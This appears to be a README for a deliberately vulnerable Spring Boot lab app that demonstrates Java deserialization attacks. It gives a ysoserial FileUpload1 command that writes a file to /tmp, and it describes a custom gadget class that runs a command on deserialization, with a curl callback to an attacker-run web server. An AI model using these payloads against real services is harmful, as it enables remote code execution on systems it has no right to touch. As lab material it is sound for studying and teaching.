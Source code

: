 * How to Run:
  - Run via `mvn spring-boot:run`

* Routes:
  - Read `blub.txt` file: Visit `/file-test?file=blub.txt`
  - Serialize:
    - Get a serialized `Book` object: Visit `/serialize?doUrlEncode=false`
    - Get a serialized `Book` object that is also URL encoded: Visit `/serialize?doUrlEncode=true`
  - Deserialize:
    - `GET`: Visit `GET /deserialize?b=<base64book_UrlEncoded>`
    - `POST`: Visit `POST /deserialize` and provide the `object-to-deserialize` in the body

* Exploiting a `Gadget Chain` (that still works as of August 2022!):
  - As a PoC, the `pom.xml` contains `commons-fileupload:1.3.1` and `commons-io:2.4`
  - Thus, we can use the `FileUpload1` gadget chain from `ysoserial`: `java -jar ysoserial.jar FileUpload1 'write;/tmp;HACKEEED' | base64`
  - We send this to our `Spring Boot` app, which will create a randomly named file (e.g. `/tmp/upload_1e2897d1_aac7_4210_8911_57cbb6ac37c0_00000000.tmp`) in `/tmp` with the content `HACKEEED`

* We also created our own `Gadget Chain` -> `BookRceReadObject` (uses the gadget `readObject`)
  * `General Description`:
    - We created a new class `BookRceReadObject.java` that execute a command upon deserialization
    - We also create a separate mini app `Evil.java` where we serialize an instance of this class, give it a command of our choosing, and then send the serialized base64-encoded string to `POST /deserialize`
  * `Command to Execute`:
    - You can adjust the command to execute in `Evil.java` (this can't be done via a command line argument for now - Boo, I know.)
  * `Setup`:
    - We first compile `Evil.java` via `javac Evil.java BookRceSetter.java BookRceSetter.java`
    - Now, we `cd` into the `/src/main/java` folder, and run `java com.example.my.tests.Evil`
    - We now use the generated file `naughty_BookRceReadObject.ser` that contains a base64 encoded version of our serialized payload
  * `Exploitation`:
    - `PoC` - `curl`:
      - We run a web server via `python3 -m http.server 82`
      - Now, we adjust the IP address of the `curl` command in `Evil.java` to wherever this web server is running
      - Last, we send a request to our API:
        POST /deserialize  
        Content-Type: application/json  
        <br />  
        <content of `naughty_BookRceReadObject.ser`>  
      - If everything works, our web server gets hit

* Testing `Setter Gadget Chain` -> Not working
  - We also create `BookRceSetter.java` which would execute a command upon calling a setter
    - Our idea is that a `setter` might be automatically invoked upon deserialization (to set the corresponding value)
  - We do the same steps as in the above section, send the payload from `naughty_BookRceSetter.ser` to `/POST deserialize`...
    - But it's not working.. Our command does not execute...
  